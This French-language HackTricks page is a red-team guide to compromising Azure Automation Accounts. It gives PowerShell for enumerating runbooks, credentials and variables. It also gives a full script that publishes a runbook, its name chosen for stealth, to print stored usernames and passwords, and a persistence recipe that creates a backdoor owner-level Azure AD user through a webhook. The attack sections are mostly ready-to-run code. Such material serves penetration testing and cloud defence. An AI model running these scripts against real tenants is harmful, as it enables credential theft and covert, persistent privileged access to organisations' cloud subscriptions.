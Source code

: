 # Az - Compte d'automatisation

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Informations de base

Azure Automation fournit un service d'automatisation basé sur le cloud, de mises à jour du système d'exploitation et de configuration qui prend en charge une gestion cohérente à travers vos environnements Azure et non-Azure. Il comprend l'automatisation des processus, la gestion de la configuration, la gestion des mises à jour, les capacités partagées et les fonctionnalités hétérogènes.

Cela ressemble à des "**tâches planifiées**" dans Azure qui vous permettent d'exécuter des choses (actions ou même des scripts) pour **gérer**, vérifier et configurer l'**environnement Azure**.

### Compte Exécuter en tant que

Lorsqu'un **Compte Exécuter en tant que** est utilisé, il crée une **application** Azure AD avec un certificat auto-signé, crée un **principal de service** et attribue le rôle de **Contributeur** pour le compte dans l'**abonnement actuel** (beaucoup de privilèges).\
Microsoft recommande d'utiliser une **Identité Gérée** pour le Compte d'Automatisation.

{% hint style="warning" %}
Cela sera **retiré le 30 septembre 2023 et remplacé par des Identités Gérées.**
{% endhint %}

## Compromettre les Runbooks & Jobs

Les **Runbooks** vous permettent d'**exécuter du code PowerShell arbitraire**. Cela pourrait être **abusé par un attaquant** pour voler les permissions du **principal attaché** (le cas échéant).\
Dans le **code** des **Runbooks**, vous pourriez également trouver des **informations sensibles** (telles que des identifiants).

Si vous pouvez **lire** les **jobs**, faites-le car ils **contiennent** la **sortie** de l'exécution (informations potentiellement **sensibles**).

Allez dans `Comptes d'automatisation` --> `<Sélectionner le Compte d'Automatisation>` --> `Runbooks/Jobs/Groupes de travailleurs hybrides/Tâches de surveillance/identifiants/variables/certificats/connexions`

### Travailleur Hybride

Un Runbook peut être exécuté dans un **conteneur à l'intérieur d'Azure** ou dans un **Travailleur Hybride**.\
L'**Agent Log Analytics** est déployé sur la VM pour l'enregistrer en tant que travailleur hybride.\
Les jobs des travailleurs hybrides s'exécutent en tant que **SYSTEM** sur Windows et compte **nxautomation** sur Linux.\
Chaque Travailleur Hybride est enregistré dans un **Groupe de Travailleurs Hybrides**.

Par conséquent, si vous pouvez choisir d'exécuter un **Runbook** dans un **Travailleur Hybride Windows**, vous exécuterez des **commandes arbitraires** à l'intérieur de cette machine en tant que **System**.

## Compromettre la Configuration d'État (SC)

Azure Automation **Configuration d'État** est un service de gestion de configuration Azure qui vous permet d'écrire, de gérer et de compiler des [configurations](https://learn.microsoft.com/en-us/powershell/dsc/configurations/configurations) PowerShell Desired State Configuration (DSC) pour des nœuds dans n'importe quel cloud ou centre de données sur site. Le service importe également des [Ressources DSC](https://learn.microsoft.com/en-us/powershell/dsc/resources/resources), et attribue des configurations aux nœuds cibles, le tout dans le cloud. Vous pouvez accéder à la Configuration d'État d'Automatisation Azure dans le portail Azure en sélectionnant **Configuration d'État (DSC)** sous **Gestion de la Configuration**.

Des **informations sensibles** pourraient être trouvées dans ces configurations.

### RCE

Il est possible d'abuser de SC pour exécuter des scripts arbitraires sur les machines gérées.

{% content-ref url="az-state-configuration-rce.md" %}
[az-state-configuration-rce.md](az-state-configuration-rce.md)
{% endcontent-ref %}

## Énumération

{% code overflow="wrap" %}
```powershell
# Check user right for automation
az extension add --upgrade -n automation
az automation account list # if it doesn't return anything the user is not a part of an Automation group

# Gets Azure Automation accounts in a resource group
Get-AzAutomationAccount

# List & get DSC configs
Get-AzAutomationAccount | Get-AzAutomationDscConfiguration
Get-AzAutomationAccount | Get-AzAutomationDscConfiguration | where {$_.name -match '<name>'} | Export-AzAutomationDscConfiguration -OutputFolder . -Debug
## Automation Accounts named SecurityBaselineConfigurationWS... are there by default (not interesting)

# List & get Run books code
Get-AzAutomationAccount | Get-AzAutomationRunbook
Get-AzAutomationAccount | Get-AzAutomationRunbook | Export-AzAutomationRunbook -OutputFolder /tmp

# List credentials & variables & others
Get-AzAutomationAccount | Get-AzAutomationCredential
Get-AzAutomationAccount | Get-AzAutomationVariable
Get-AzAutomationAccount | Get-AzAutomationConnection
Get-AzAutomationAccount | Get-AzAutomationCertificate
Get-AzAutomationAccount | Get-AzAutomationSchedule
Get-AzAutomationAccount | Get-AzAutomationModule
Get-AzAutomationAccount | Get-AzAutomationPython3Package
## Exfiltrate credentials & variables and the other info loading them in a Runbook and printing them

# List hybrid workers
Get-AzAutomationHybridWorkerGroup -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME>
```
### Créer un Runbook

{% code overflow="wrap" %}
```powershell
# Get the role of a user on the Automation account
# Contributor or higher = Can create and execute Runbooks
Get-AzRoleAssignment -Scope /subscriptions/<ID>/resourceGroups/<RG-NAME>/providers/Microsoft.Automation/automationAccounts/<AUTOMATION-ACCOUNT>

# Create a Powershell Runbook
Import-AzAutomationRunbook -Name <RUNBOOK-NAME> -Path C:\Tools\username.ps1 -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Type PowerShell -Force -Verbose

# Publish the Runbook
Publish-AzAutomationRunbook -RunbookName <RUNBOOK-NAME> -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Verbose

# Start the Runbook
Start-AzAutomationRunbook -RunbookName <RUNBOOK-NAME> -RunOn Workergroup1 -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Verbose
```
### Exfiltration des identifiants et des variables définis dans un compte d'automatisation à l'aide d'un Run Book
```powershell
# Change the crdentials & variables names and add as many as you need
@'
$creds = Get-AutomationPSCredential -Name <credentials_name>
$runbook_variable = Get-AutomationVariable -name <variable_name>
$runbook_variable
$creds.GetNetworkCredential().username
$creds.GetNetworkCredential().password
'@ | out-file -encoding ascii 'runbook_get_creds.ps1'

$ResourceGroupName = '<resource_group_name>'
$AutomationAccountName = '<auto_acc_name>'
$RunBookName = 'Exif-Credentials' #Change this for stealthness

# Creare Run book, publish, start, and get output
New-AzAutomationRunBook -name $RunBookName -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName -Type PowerShell
Import-AzAutomationRunBook -Path 'runbook_get_creds.ps1' -Name $RunBookName -Type PowerShell -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName -Force
Publish-AzAutomationRunBook -Name $RunBookName -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName
$start = Start-AzAutomationRunBook -Name $RunBookName -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName
start-sleep 20
($start | Get-AzAutomationJob | Get-AzAutomationJobOutput).Summarynt
```
{% hint style="info" %}
Vous pourriez faire la même chose en modifiant un Run Book existant, et depuis la console web.
{% endhint %}

## Persistance

### Automatisation qui crée un utilisateur hautement privilégié

* Créer un nouveau compte d'automatisation
* "Créer un compte Azure Run As" : Oui
* Importer un nouveau runbook qui crée un utilisateur AzureAD avec des permissions de propriétaire pour l'abonnement
* Exemple de runbook pour ce Blog situé ici – [https://github.com/NetSPI/MicroBurst](https://github.com/NetSPI/MicroBurst)
* Publier le runbook
* Ajouter un webhook au runbook
* Ajouter le module AzureAD au compte d'automatisation
* Mettre à jour les modules Azure Automation
* Attribuer les droits "Administrateur d'utilisateurs" et "Propriétaire d'abonnement" au compte d'automatisation
* Finalement perdre votre accès…
* Déclencher le webhook avec une requête post pour créer le nouvel utilisateur

```powershell
$uri = "https://s15events.azure-automation.net/webhooks?token=h6[REDACTED]%3d"
$AccountInfo  = @(@{RequestBody=@{Username="BackdoorUsername";Password="BackdoorPassword"}})
$body = ConvertTo-Json -InputObject $AccountInfo
$response = Invoke-WebRequest -Method Post -Uri $uri -Body $body
```

## Références

* [https://learn.microsoft.com/fr-fr/azure/automation/overview](https://learn.microsoft.com/fr-fr/azure/automation/overview)
* [https://learn.microsoft.com/fr-fr/azure/automation/automation-dsc-overview](https://learn.microsoft.com/fr-fr/azure/automation/automation-dsc-overview)
* [https://github.com/rootsecdev/Azure-Red-Team#runbook-automation](https://github.com/rootsecdev/Azure-Red-Team#runbook-automation)

<details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> !</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez**-moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de hacking en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

